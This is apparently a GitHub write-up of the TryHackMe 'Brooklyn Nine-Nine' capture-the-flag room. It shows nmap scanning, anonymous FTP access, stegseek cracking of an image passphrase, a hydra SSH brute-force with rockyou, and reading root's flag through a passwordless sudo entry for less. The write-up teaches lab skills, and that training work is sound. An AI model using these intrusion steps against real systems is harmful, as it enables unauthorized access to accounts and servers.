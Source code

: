 # THM-Brooklyn-Nine-Nine-WriteUp

Write up for https://tryhackme.com/room/brooklynninenine (Visit tryhackme.com for more)

## Setting up and information gathering

For this CTF I've added an entry 'ninenine' to /etc/hosts pointing at the box IP

Next, I started an nmap syn scan (default type when run as root) on the host and got the following:

(`nmap -A ninenine`)

```          
21/tcp open  ftp     vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_-rw-r--r--    1 0        0             119 May 17  2020 note_to_jake.txt
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.11.67.245
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 1
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 16:7f:2f:fe:0f:ba:98:77:7d:6d:3e:b6:25:72:c6:a3 (RSA)
|   256 2e:3b:61:59:4b:c4:29:b5:e8:58:39:6f:6f:e9:9b:ee (ECDSA)
|_  256 ab:16:2e:79:20:3c:9b:0a:01:9c:8c:44:26:01:58:04 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
```

## Flag 1

I've head to the hosted website and found a low quality background picture of Brooklyn Nine Nine. Inspecting the source reveals this comment:
`<!-- Have you ever heard of steganography? -->`
Well, yes I do!
I downloaded the picture and tried to extract datas from it: 

```
└─# steghide extract -sf brooklyn99.jpg
Enter passhphrase:
```

It asked for a passphrase which I tried to crack with stegseek (https://github.com/RickdeJager/stegseek)

```
└─# stegseek brooklyn99.jpg /usr/share/wordlists/rockyou.txt 
StegSeek 0.6 - https://github.com/RickdeJager/StegSeek

[i] Found passphrase: "[*CENSORED*]"
[i] Original filename: "note.txt".
[i] Extracting to "brooklyn99.jpg.out".
```

This is the content of the exctracted file:

```
Holts Password:
[*CENSORED*]
```

Next step is to ssh into the server with user holt and find the flag in /home/holt/user.txt 

## Flag 2

I still needed to check out the FTP server which allowed Anonymoys login and contained the file note_to_jake.txt

```
└─# ftp ninenine
Connected to ninenine.
220 (vsFTPd 3.0.3)
Name (ninenine:kali): Anonymous
331 Please specify the password.
Password:
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
-rw-r--r--    1 0        0             119 May 17  2020 note_to_jake.txt
226 Directory send OK.
ftp> get note_to_jake.txt
local: note_to_jake.txt remote: note_to_jake.txt
200 PORT command successful. Consider using PASV.
150 Opening BINARY mode data connection for note_to_jake.txt (119 bytes).
226 Transfer complete.
119 bytes received in 0.07 secs (1.6572 kB/s)
```

The file contains the following:

```
From Amy,

Jake please change your password. It is too weak and holt will be mad if someone hacks into the nine nine
```

Knowing another username (jake) and that he has a 'too weak' password it's time to bruteforce:

```
└─# hydra nine -f -l jake -P /usr/share/wordlists/rockyou.txt ssh                                                                                 

Hydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2022-03-19 05:02:33
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking ssh://nine:22/
[22][ssh] host: nine   login: jake   password: [*CENSORED*]
[STATUS] attack finished for nine (valid pair found)
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2022-03-19 05:02:35
```

First thing I've done after sshed into the server with jake was checking sudo's permissions

```
jake@brookly_nine_nine:~$ sudo -l -l
Matching Defaults entries for jake on brookly_nine_nine:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User jake may run the following commands on brookly_nine_nine:

Sudoers entry:
    RunAsUsers: ALL
    Options: !authenticate
    Commands:
        /usr/bin/less
```

I took a shot by running `sudo less /root/root.txt` and easily found last flag


